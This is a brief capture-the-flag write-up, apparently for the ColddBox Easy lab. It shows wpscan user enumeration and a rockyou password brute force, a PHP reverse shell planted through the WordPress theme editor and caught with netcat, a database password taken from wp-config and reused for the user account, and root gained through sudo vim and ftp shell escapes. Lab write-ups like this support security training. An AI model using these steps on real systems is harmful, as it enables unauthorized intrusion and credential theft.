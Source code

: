 # Colddboxeasy

#### Nmap 

80 - http

wordpress

	wpscan --url 10.10.39.162 -e u

Three users found

hugo

c0ldd

philip

	wpscan --url 10.10.39.162 --passwords /usr/share/wordlists/rockyou.txt --usernames c0ldd
	
Username: c0ldd, Password: 9876543210

http://10.10.39.162/wp-admin/theme-editor.php?file=404.php&theme=twentyfifteen

edit the page put your php reverse payload & save it

run it http://10.10.39.162/wp-content/themes/twentyfifteen/404.php

check ur NC!

```bash
┌──(arundhanush㉿kali)-[~/CTF/THM/colddboxeasy]
└─$ nc -lnvp 1234                             
Listening on 0.0.0.0 1234
Connection received on 10.10.39.162 56042
Linux ColddBox-Easy 4.4.0-186-generic #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 15:26:31 up 41 min,  0 users,  load average: 0.00, 0.06, 0.11
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

In wp-config file got c0ldd user passwd 

	/** The name of the database for WordPress */
	define('DB_NAME', 'colddbox');

	/** MySQL database username */
	define('DB_USER', 'c0ldd');

	/** MySQL database password */
	define('DB_PASSWORD', 'cybersecurity');

	/** MySQL hostname */
	define('DB_HOST', 'localhost');

c0ldd:cybersecuity

## Privesc

Multiple ways to escalate privesc

```bash
c0ldd@ColddBox-Easy:~$ sudo -l
sudo -l
[sudo] password for c0ldd: cybersecurity

Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
```

to root

	vim -c ':!/bin/sh'

	sudo ftp
	!/bin/sh

